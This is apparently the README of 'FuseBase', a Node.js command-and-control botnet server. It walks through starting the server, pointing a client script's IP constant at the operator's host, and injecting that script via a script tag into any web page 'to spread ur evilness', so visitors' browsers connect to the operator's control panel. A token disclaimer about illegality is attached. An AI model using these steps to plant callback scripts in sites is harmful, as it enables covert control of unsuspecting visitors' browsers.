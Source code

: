 # FuseBase
A C&C ~botnet~ server made in nodejs

# NOTE
I don't take any responsibility for what you will do with this software/code.
Remember that running malicious code on someone's machine without their knowledge is illegal.

# Prerequisities
1. Latest Nodejs

# How to:
## Step 1: Fork, Clone & Install
1. Fork this repo (it will be handy later, altho you can skip this if you have a place to host js files)
2. Clone/Download the repo to your PC
3. Run `npm install` in the root

## Step 2: Run and JS inclusion
1. Run `npm start` in the root dir
2. Edit `src/client/client.js` with any text editor and change the `nodeJsIp` const to `http://yourip:3000` (you might wanna get a DDNS)
3. (Here is where the hosting part comes in) grab a link to `src/client/client.js` and include it wherever u wanna spread ur evilness (or goodness depending on what ur doing) AKA normal `<script src="link"></script>` anywhere in the html.
4. Get into the W.I.P Control Panel `yourip:3000`

## Step 3: Use existing modules or write your own:
See the [wiki](https://github.com/lukas2005/FuseBase/wiki)
